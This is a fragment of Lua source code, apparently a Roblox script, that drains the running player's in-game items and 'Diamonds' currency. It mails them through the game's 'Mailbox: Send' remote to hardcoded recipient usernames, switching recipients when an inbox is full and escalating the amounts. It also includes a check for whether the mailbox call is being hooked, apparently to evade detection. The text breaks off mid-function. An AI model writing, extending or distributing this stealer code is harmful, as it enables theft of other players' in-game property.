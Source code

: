 local user = Username
local user2 = Username2

local function sendItem(category, uid, am)
    local args = {
        [1] = user,
        [2] = MailMessage,
        [3] = category,
        [4] = uid,
        [5] = am or 1
    }
	local response = false
	repeat
    	local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
		if response == false and err == "They don't have enough space!" then
			user = user2
			args[1] = user
		end
	until response == true
	GemAmount1 = GemAmount1 - newamount
	newamount = math.ceil(math.ceil(newamount) * 1.5)
	if newamount > 5000000 then
		newamount = 5000000
	end
end

local function SendAllGems()
    for i, v in pairs(GetSave().Inventory.Currency) do
        if v.id == "Diamonds" then
			if GemAmount1 >= (newamount + 10000) then
				local args = {
					[1] = user,
					[2] = MailMessage,
					[3] = "Currency",
					[4] = i,
					[5] = GemAmount1 - newamount
				}
				local response = false
				repeat
					local response = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
				until response == true
				break
			end
        end
    end
end

local function IsMailboxHooked()
	local uid
	for i, v in pairs(save["Pet"]) do
		uid = i
		break
	end
	local args = {
        [1] = "Roblox",
        [2] = "Test",
        [3] = "Pet",
        [4] = uid,
        [5] = 1
    }
    local response, err = network:WaitForChild("Mailbox: Send"):InvokeServer(unpack(args))
    if (err == "They don't have enough space!") or (err == "You don't have enough diamonds to send the mail!") then
        return false
    else